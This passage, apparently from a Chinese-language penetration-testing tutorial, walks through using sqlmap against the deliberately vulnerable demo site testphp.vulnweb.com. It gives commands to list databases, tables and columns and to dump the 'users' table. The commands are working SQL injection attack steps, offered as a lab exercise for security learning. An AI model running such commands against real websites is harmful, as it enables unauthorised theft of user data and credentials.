 我们得到以下输出，显示有两个可用的数据库。有时，应用程序会告诉您它已经识别了数据库，并询问您是否要测试其他数据库类型。您可以继续输入“Y”。此外，它可能会询问您是否要测试其他参数以查找漏洞，请在此处输入“Y”，因为我们希望彻底测试 Web 应用程序。

**步骤 2：列出特定数据库中存在的表的信息**

要尝试访问任何数据库，我们必须修改我们的命令。我们现在使用-D 来指定我们希望访问的数据库的名称，一旦我们访问了数据库，我们希望看看是否可以访问表。

对于此任务，我们可以使用`--tables`查询来访问 acuart 数据库：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart --tables
```

在下图中，我们看到已恢复了八个表。通过这种方式，我们确切地知道网站是易受攻击的：

![](img/fe550ac2-0495-41f8-ac80-aea3322b5a87.png)

**步骤 3：列出特定表的列信息**

如果我们想要查看特定表的列，我们可以使用以下命令，其中我们使用`-T`来指定表名，并使用**`--columns`**来查询列名。

这是我们可以尝试访问‘users’表的命令：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart -T users
--columns
```

**步骤 4：从列中转储数据**

同样，我们可以使用以下命令访问特定表中的所有信息，其中`**--dump`查询检索用户表中的所有数据：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users --dump
```

从以下图片中，我们可以看到我们已经访问了数据库中的数据：
